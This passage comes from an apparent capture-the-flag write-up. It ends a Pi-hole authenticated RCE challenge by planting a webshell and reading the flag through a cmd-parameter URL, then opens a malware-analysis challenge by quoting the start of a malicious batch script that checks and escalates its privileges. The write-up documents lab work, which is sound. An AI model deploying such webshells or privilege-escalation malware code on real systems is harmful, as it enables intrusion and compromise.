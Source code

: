 Replacing the payload with a simple webshell

![New webshell payload](../../images/auth-rce-webshell-payload.png){: .image-process-crisp}

Exploit code output:

![New payload output](../../images/auth-rce-exploit-code-output.png){: .image-process-crisp}

And the flag was found by following this link: http://env263.target03/admin/scripts/pi-hole/php/fun.php?cmd=cat%20/var/log/dnserror.log

![Found flag](../../images/always-dns-flag.png){: .image-process-crisp}

#### COOL VIDEO

```md
DESCRIPTION
A friend asks for help with recent movie that was downloaded from torrents: something is wrong with player.
The video is available at https://static.ctftech.io/challs/Horror_stories_2k21-720p.zip
QUESTION
What is the address of C&C of the malware?
The answer is expected in usual format for an Internet address - <IP>:<PORT>
```

We though this was easy. And... it took a few hours. The solution
was a lucky guess based on the C&C (Command & Control) settings.

The bat script contained some magic, but nothing revealing was there.
But we used the certutil command to get to the solution

```bat
 @echo off
 CLS
 :init
 setlocal DisableDelayedExpansion
 set cmdInvoke=1
 set winSysFolder=System32
 set "batchPath=%~0"
 for %%k in (%0) do set batchName=%%~nk
 set "vbsGetPrivileges=%temp%\OEgetPriv_%batchName%.vbs"
 setlocal EnableDelayedExpansion
:checkPrivileges
  NET FILE 1>NUL 2>NUL
  if '%errorlevel%' == '0' ( goto gotPrivileges ) else ( goto getPrivileges )

```